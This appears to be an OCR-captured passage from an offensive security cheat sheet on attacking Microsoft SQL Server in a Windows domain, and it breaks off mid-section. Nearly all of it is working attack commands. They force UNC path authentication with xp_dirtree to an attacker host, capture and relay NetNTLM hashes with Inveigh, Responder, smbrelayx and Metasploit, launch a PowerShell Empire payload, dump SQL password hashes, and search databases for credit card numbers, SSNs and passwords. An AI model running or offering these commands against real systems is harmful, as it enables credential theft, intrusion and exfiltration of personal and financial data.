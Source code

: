 ````
 
#### Check as what the server is running
```
Get-SQLInstanceDomain | Get-SQLServerInfo | Select-object Instance, ServiceAccount
```

#### UNC PATH INJECTION
- Public role has access to xp_dirtree and xp_fileexists to abuse UNC PATH INJECTION
- https://gist.github.com/nullbind/7dfca2a6309a4209b5aeef181b676c6e
 
#### Capture NetNTLM password hash
```
.\Inveigh.exe -DNS N -LLMNR N -LLMNRv6 N -HTTP N -FileOutput N
EXEC xp_dirtree '\\<IP>\pwn', 1, 1
```

```
sudo responder -I eth0
Get-SQLInstanceDomain | Invoke-SQLUncPathInjection
```
 
#### Capture NetNTLM password hash and relay it example
```
import-module .\PowerUpSQL.ps1
Import-Module \Scripts\3rdparty\Inveigh.ps1
Import-Module \Scripts\pending\Get-SQLServiceAccountPwHashes.ps1
Get-SQLServiceAccountPwHashes -Verbose -TimeOut 20 -CaptureIp <ATTACKER IP>
 

python smbrelayx.py -h <SQL SERVER IP> -c 'powershell empire launcher'
msf > use auxiliary/admin/mssql/mssql_ntlm_stealer
set SMBPROXY <ATTACKER IP>
set RHOST <TARGET IP>
set GET_PATH <PATH TO SQLI>
run
```

### Data exfiltration
#### SQLServerPasswordHash
```
Get-SQLServerPasswordHash -Verbose -Instance <INSTANCE> -Migrate
```
 
#### Identify Sensitive Data
```
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded | Get-SQLColumnSampleDataThreaded -Verbose -Threads 20 -Keyword "credit,creditcard,ssn,bsn,password,wachtwoord" -SampleSize 2 -ValidateCC -NoDefaults
```
 
#### Identify sensitive data featuring transparent encryption
```
Get-SQLInstanceDomain | Get-SQLConnectionTest | Get-SQLDatabaseThreaded -Verbose -Threads 10 -NoDefaults | Where-Object {$_.is_encrypted -eq 'TRUE'}| Get-SQLColumnSampleDataThreaded -Verbose -Threads 20 -Keyword "credit,creditcard,ssn,bsn,password,wachtwoord" -SampleSize 2 -ValidateCC -NoDefaults
```

#### SQL Queries
```
#When able to connect directy to the instance
Get-SQLDatabase
Get-SQLTable
Get-SQLColumn
Get-SQLQuery -Query "use <DATABASE>; SELECT * from <TABLE>"

#Through links
````